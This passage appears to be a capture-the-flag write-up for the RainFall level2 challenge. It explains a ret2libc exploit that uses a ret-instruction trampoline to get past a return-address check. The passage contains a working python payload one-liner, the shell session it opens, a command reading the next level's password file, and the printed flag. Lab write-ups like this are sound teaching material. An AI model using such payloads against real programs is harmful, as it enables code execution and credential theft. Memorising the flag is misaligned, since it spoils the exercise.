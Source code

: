 In order to do this we can exploit the ret instruction itself.

If we put \x3e\x85\x04\x08 (0x0804853e, the address of the ret instruction of function p) as the return address
and offset everything else by 4 bytes we obtain this:
```sh
[ aaaaaaaaaaaaa..... ] # padding to reach saved ebp
[ bbbb ] # padding to reach return address
[ \x3e\x85\x04\x08 ] # set return address to 'ret' instruction (trampoline) (bypass the check)
[ \x60\xb0\xe6\xb7 ] # This value is popped by the trampoline and becomes the new return address (system())
[ \xe0\xeb\xe5\xb7 ] # Fake return address for system() (exit() address)
[ \x58\xcc\xf8\xb7 ] # First argument for system() (pointer to the string "/bin/sh")
```

Which result in this command:
```sh
level2@RainFall:~$ (python -c "print('a' * 76 + 'b' * 4 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>�aaaaaaaabbbb>�`�����X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


##### Explanation:

Padding to Saved EBP:
- The first section (aaaaaaaaaaaaa.....) fills the buffer and reaches the saved EBP.

Overwrite Saved EBP:
- The next 4 bytes (bbbb) overwrite the saved EBP; their value is not critical (often junk).

Trampoline (Ret Instruction):
- The following 4 bytes (\x3e\x85\x04\x08) replace the saved return address with the address of a ret instruction in your binary. This trampoline address bypasses the check that would otherwise catch a libc address.

System() Address:
- The trampoline’s ret pops the next 4 bytes (\x60\xb0\xe6\xb7) off the stack, making that value the new return address. This should be the address of system().

Fake Return Address for system():
- The next 4 bytes (\xe0\xeb\xe5\xb7) serve as system()’s return address. They’re typically set to the address of exit() so that if system() returns, the program terminates gracefully.

Argument for system():
- The final 4 bytes (\x58\xcc\xf8\xb7) point to the string "/bin/sh", which becomes the first argument for system(), causing it to execute system("/bin/sh").

This chain ensures that control flows correctly: the vulnerable function returns to the trampoline, which then directs execution to system() with the proper arguments.